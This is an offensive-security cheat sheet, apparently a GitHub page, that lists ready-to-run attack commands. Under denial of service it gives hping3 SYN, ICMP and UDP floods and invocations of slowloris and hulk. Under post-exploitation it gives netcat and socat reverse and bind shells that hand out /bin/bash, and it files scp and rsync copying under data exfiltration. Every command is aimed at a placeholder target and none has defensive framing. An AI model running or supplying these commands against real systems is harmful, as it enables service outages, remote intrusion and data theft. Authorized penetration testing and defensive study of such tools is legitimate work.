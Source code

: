
## 🔹 Denial of Service (DoS)

**hping3** – Advanced packet crafting  
```bash
hping3 -S --flood -V target -p 80          # SYN flood
hping3 -1 --flood target                   # ICMP flood  
hping3 -2 --flood target -p 80             # UDP flood
```

**slowloris** – Slow HTTP DoS  
```bash
slowloris target.com
```

**LOIC** – Low Orbit Ion Cannon  
```bash
# GUI-based DoS tool (Windows)
```

**hulk** – HTTP Unbearable Load King  
```bash
python hulk.py target.com
```

---

## 🔹 Post-Exploitation & Persistence

### Network Tools

**netcat** – Network swiss army knife  
```bash
nc -lvnp 4444                              # Listen for connections
nc target 80                               # Connect to port
nc -e /bin/bash target 4444                # Reverse shell (if -e supported)
nc -lu target 4444 < file.txt             # File transfer (sender)
nc -l 4444 > received_file.txt             # File transfer (receiver)
```

**socat** – Advanced netcat replacement  
```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash  # Bind shell
socat TCP:target:4444 EXEC:/bin/bash,pty,stderr      # Reverse shell
```

### Data Exfiltration

**scp** – Secure copy over SSH  
```bash
scp file.txt user@target:/tmp/
scp user@target:/tmp/file.txt .
```

**rsync** – Remote file synchronization  
```bash
rsync -avz /local/path/ user@target:/remote/path/
```
